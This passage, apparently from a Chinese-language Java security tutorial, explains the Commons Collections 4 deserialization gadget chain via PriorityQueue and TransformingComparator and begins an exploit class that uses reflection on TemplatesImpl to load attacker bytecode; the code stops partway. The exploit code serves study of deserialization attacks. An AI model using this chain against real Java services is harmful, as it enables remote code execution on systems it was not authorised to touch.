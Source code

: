 [![](assets/1701612311-742386d71ad5af552331ca0d974213fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235553-94f03d06-20cc-1.png)

### EXP问题:

在我们简单调用完上面的链子之后，并没能够弹出计算器，所以这里我们就要下断点调试一下，size默认值为0，进不了循环

```plain
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

需要将size值为2才可以，又因为add函数在序列化时也能够走通链子，所以我们也和前面构造exp一样，先破坏一个值，然后再add以后使用反射修改回来：

### EXP(CC4TransformingComparator):

```plain
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class CC4TransformingComparator {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
```